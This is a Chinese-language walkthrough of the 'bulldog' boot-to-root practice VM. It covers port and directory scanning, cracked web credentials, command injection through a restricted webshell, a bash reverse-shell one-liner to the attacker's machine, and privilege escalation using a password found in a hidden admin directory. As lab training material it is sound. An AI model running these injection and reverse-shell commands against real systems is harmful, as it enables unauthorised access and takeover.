0.靶机介绍
靶机名称：bulldog
下载链接：
虚拟机难度中等，使用ubuntu（32位）,其他软件包有：PHP，apache，MySQL
目标：Boot to root：从Web应用程序进入虚拟机，并获得root权限。
攻击机：kali
攻击机ip：192.168.110.128 (VMWare,NAT)
靶机ip：VirtualBox桥接，自动获取IP
1.信息搜集
这里已经显示了靶机的ip 192.168.0.104，就不再扫描了

扫描一下端口吧
1 | nmap -p 0-65535 192.168.0.104 |

2.Web
直接访问ip

用dirb 默认字典扫一下目录
1 | dirb http://192.168.0.104 |
访问一下/admin/，要密码。。。

再看看/dev/，一大堆英文，懒得看也看不懂。。。
点这个webshell看看

。。。。。。
回到刚刚的dev页面，查看源码有新发现

拿去解码，发现只有两个能解出来
1 | nick:bulldog |
直接拿去登录,登录成功

3.webshell
可以看到这里面啥功能也没有，应该是刚刚的/dev/webshell有操作，在登录状态访问一下
嘿嘿，成了！

但是只能执行它上面提到的命令，别的不行

尝试一下 &，哈哈成了。。。

4.nc反弹
一直接收不到反弹，把kali网络模式由NAT改为桥接，可以了。
直接输入命令nc反弹接收shell
1 | echo 'bash -i >& /dev/tcp/192.168.0.108/6666 0>&1' | bash |
ok.成功收到shell

5.提权
因为我们这个用户是django，查看一下passwd文件有哪些用户
1 | cat /etc/passwd |

这里有个用户，bulldogadmin,有目录
查看一下home目录，有目录bulldogadmin，ls看看

进入.hiddenadmindirectory看看

有俩文件，看看

第二个，这里面有个password单词，被H分割了

去H看看
1 | SUPERultimatePASSWORDyouCANTget |
可能是密码，试试SSH
1 | ssh -p 23 bulldogadmin@192.168.0.104 |
不对。。。，是django的密码

结合上面的cathiddenadmindirectory的内容来看，sudo -i

ok!